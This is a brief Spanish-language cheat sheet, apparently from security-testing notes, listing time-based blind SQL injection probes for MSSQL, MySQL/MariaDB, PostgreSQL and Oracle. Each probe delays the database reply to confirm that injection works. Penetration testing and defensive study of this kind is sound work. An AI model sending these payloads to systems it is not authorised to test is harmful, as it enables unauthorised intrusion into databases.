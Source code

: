 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | WAITFOR DELAY '0:0:10'  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |
